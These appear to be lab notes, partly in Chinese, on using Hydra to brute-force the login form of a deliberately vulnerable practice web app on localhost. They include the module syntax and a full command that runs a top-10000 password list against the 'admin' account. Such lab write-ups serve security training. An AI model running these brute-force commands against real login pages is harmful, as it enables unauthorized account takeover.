 gnebbia/hydra_notes: Some notes about Hydra for bruteforcing
[https://github.com/gnebbia/hydra_notes](https://github.com/gnebbia/hydra_notes)

### Target URL

```
[http://localhost:8086/vulnerabilities/brute/?username=qwe&password=123&Login=Login#](http://localhost:8086/vulnerabilities/brute/?username=qwe&password=123&Login=Login#)
```

### Hydra snippets

```bash
hydra -V -l <user> -P <password file> -s <port> -f <host> <module> "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

### module: http-form-get

### 可以用 hydra -U http-get-form 閱讀一下 module 用法

```c
hydra -U http-get-form
```

### http-form-get module syntax

```c
Syntax: <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
```

### path

```
/vulnerabilities/brute/?
```

### GET/POST 變數用 `^` 包住

```c
:username=^USER^&password=^PASS^&Login=Login
```

### error message

```c
:F=Username and/or password incorrect.
```

### brute force

帳號就先用 admin 試試看

```bash
hydra -V -l admin -P 10-million-password-list-top-10000.txt -s 8086 -f localhost http-form-get "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```
